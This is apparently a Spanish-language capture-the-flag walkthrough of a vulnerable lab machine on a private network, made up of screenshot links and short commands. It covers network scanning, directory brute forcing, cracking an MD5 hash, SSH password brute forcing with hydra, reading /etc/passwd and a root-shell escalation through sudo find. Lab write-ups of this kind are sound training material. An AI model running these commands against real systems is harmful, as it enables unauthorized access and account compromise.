
Escaneo para sacar IP
nmap -sn 192.168.56.0/24

Sacamos versiones de servicios en todos los puertos
nmap -sV -p- 192.168.56.119


Con ctrl U no vemos nada

Esto solo se ve con ctrl I

echo "RWwgZGlyZWN0b3JpbyBkZSByZXNwYWxkbyBmdWUgY8y1zZvNisyQzJjMpsyYb8y1zYbNnc2EzZbNk8yYbcy0zJXNkMy/zZPMq82JcMy0zJrNhM2azYlyzLjNmM2EzL/Mocy6b8y4zaDNhM2bzYnMusyibcy1zZvNhs2GzZTNls2NZcy1zZjNoM2gzZTNmcyYdMy1zL/Nnc2AzZrMocyhacy1zaDNkcygzKZkzLXNnc2QzJrMos2UzJlvzLjMkM2EzYDNlsygzKY=" | base64 -d



gobuster dir -u http://192.168.56.119 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,htm,html,txt,zip, -b 400,404





tiene pinta que esta cifrado
Es un hash, vamos a hacerle fuerza bruta
hashcat -m 0 -a 3 "d8578edf8458ce06fbc5bb76a58c5ca4" ?l?l?l?l?l?l

La contraseña es qwerty
Con rockyou tambien hubiera salido -- hashcat -m 0 -a 0 "d8578edf8458ce06fbc5bb76a58c5ca4" /usr/share/wordlist/rockyou.txt


dir

cat /etc/passwd

hacemos fuerza bruta al usuario nolen11 por ssh
hydra -l nolen11 -P /usr/share/wordlists/ffuf/SecLists/Passwords/Common-Credentials/xato-net-10-million-passwords-100000.txt -t 16 -f 192.168.56.119 ssh

ssh nolen11@192.168.56.119

obtenida flag de user


sudo -l

tenemos permisos para /usr/bin/find
sudo /usr/bin/find . -exec /bin/sh -p \; -quit


